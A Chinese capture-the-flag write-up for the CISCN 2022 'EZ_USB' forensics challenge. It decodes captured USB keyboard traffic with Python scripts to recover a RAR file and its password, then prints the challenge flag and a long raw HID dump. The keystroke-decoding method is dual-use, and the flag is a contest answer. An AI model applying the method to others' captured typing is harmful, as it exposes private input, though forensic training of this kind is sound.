








# xd1ddw 第十五届全国大学生信息安全竞赛创新实践能力赛场景实操 Writeup

[TOC]

## EZ_USB

> by nemo

首先打开 `wireshark`，发现是 USB 流量：

仔细观察 `2.8` 和 `2.10` 是什么设备：





都是键盘。


分离一下不同的 HID 数据：使用过滤器：`usb.src == "2.8.1" || usb.dst == "2.8.1"` 和 `usb.src == "2.10.1" || usb.dst == "2.10.1"` 并且导出成 JSON：



然后查了一下，有直接解密键盘的 decode 脚本：

https://chowdera.com/2021/08/20210824173325591N.html

`decode.py`

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

normalKeys = {"04": "a", "05": "b", "06": "c", "07": "d", "08": "e", "09": "f", "0a": "g", "0b": "h", "0c": "i", "0d": "j", "0e": "k", "0f": "l", "10": "m", "11": "n", "12": "o", "13": "p", "14": "q", "15": "r", "16": "s", "17": "t", "18": "u", "19": "v", "1a": "w", "1b": "x", "1c": "y", "1d": "z", "1e": "1", "1f": "2", "20": "3", "21": "4", "22": "5", "23": "6", "24": "7", "25": "8", "26": "9", "27": "0",
              "28": "<RET>", "29": "<ESC>", "2a": "<DEL>", "2b": "\t", "2c": "<SPACE>", "2d": "-", "2e": "=", "2f": "[", "30": "]", "31": "\\", "32": "<NON>", "33": ";", "34": "'", "35": "<GA>", "36": ",", "37": ".", "38": "/", "39": "<CAP>", "3a": "<F1>", "3b": "<F2>", "3c": "<F3>", "3d": "<F4>", "3e": "<F5>", "3f": "<F6>", "40": "<F7>", "41": "<F8>", "42": "<F9>", "43": "<F10>", "44": "<F11>", "45": "<F12>"}
shiftKeys = {"04": "A", "05": "B", "06": "C", "07": "D", "08": "E", "09": "F", "0a": "G", "0b": "H", "0c": "I", "0d": "J", "0e": "K", "0f": "L", "10": "M", "11": "N", "12": "O", "13": "P", "14": "Q", "15": "R", "16": "S", "17": "T", "18": "U", "19": "V", "1a": "W", "1b": "X", "1c": "Y", "1d": "Z", "1e": "!", "1f": "@", "20": "#", "21": "$", "22": "%", "23": "^", "24": "&", "25": "*",
             "26": "(", "27": ")", "28": "<RET>", "29": "<ESC>", "2a": "<DEL>", "2b": "\t", "2c": "<SPACE>", "2d": "_", "2e": "+", "2f": "{", "30": "}", "31": "|", "32": "<NON>", "33": "\"", "34": ":", "35": "<GA>", "36": "<", "37": ">", "38": "?", "39": "<CAP>", "3a": "<F1>", "3b": "<F2>", "3c": "<F3>", "3d": "<F4>", "3e": "<F5>", "3f": "<F6>", "40": "<F7>", "41": "<F8>", "42": "<F9>", "43": "<F10>", "44": "<F11>", "45": "<F12>"}
output = []
keys = open('usbdata.txt', encoding="utf-8")
for line in keys:
    try:
        if line[0] != '0' or (line[1] != '0' and line[1] != '2') or line[3] != '0' or line[4] != '0' or line[9] != '0' or line[10] != '0' or line[12] != '0' or line[13] != '0' or line[15] != '0' or line[16] != '0' or line[18] != '0' or line[19] != '0' or line[21] != '0' or line[22] != '0' or line[6:8] == "00":
            continue
        if line[6:8] in normalKeys.keys():
            output += [[normalKeys[line[6:8]]],
                       [shiftKeys[line[6:8]]]][line[1] == '2']
        else:
            output += ['[unknown]']
    except:
        pass
keys.close()

flag = 0
print("".join(output))
for i in range(len(output)):
    try:
        a = output.index('<DEL>')
        del output[a]
        del output[a-1]
    except:
        pass
for i in range(len(output)):
    try:
        if output[i] == "<CAP>":
            flag += 1
            output.pop(i)
            if flag == 2:
                flag = 0
        if flag != 0:
            output[i] = output[i].upper()
    except:
        pass
print('output :' + "".join(output))

```

然后自己写了一个从 JSON 中拿 HID 数据的 `extract.py`

```py
import json
from typing import List, Dict
with open("usb_keyboard_alt.json", encoding="utf-8") as f:
    all_data = json.load(f)

all_data: List[Dict[str, str | Dict]]

result = ""

for i in all_data:
    usbhid_data = i["_source"]["layers"].get("usbhid.data", "")
    if usbhid_data:
        result += usbhid_data
        result += "\n"

print(result)

```

`2.8` 的数据解出来是一个加密的 RAR ：





密码是 `2.10` 解出来的：




解出了 `flag/flag.txt`: `flag{20de17cc-d2c1-4b61-bebd-41159ed7172d}`

附输出的结果：

```powershell
# nemo @ nemo-home-desktop in D:\Users\nemo\Downloads\ciscn2022\ez_usb_aa5a121ba13f7e82d2df13af34ac3123 [11:17:02]
$ python .\extract.py
04:00:00:00:00:00:00:00
04:00:2b:00:00:00:00:00
00:00:2b:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:09:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:26:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:07:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:26:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:05:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:26:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:09:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:26:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:05:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:25:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:05:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:22:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:07:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:25:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:06:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:23:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:08:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:25:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:24:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:05:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:26:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:05:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:39:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:04:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:27:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1e:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:21:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:1f:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:09:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
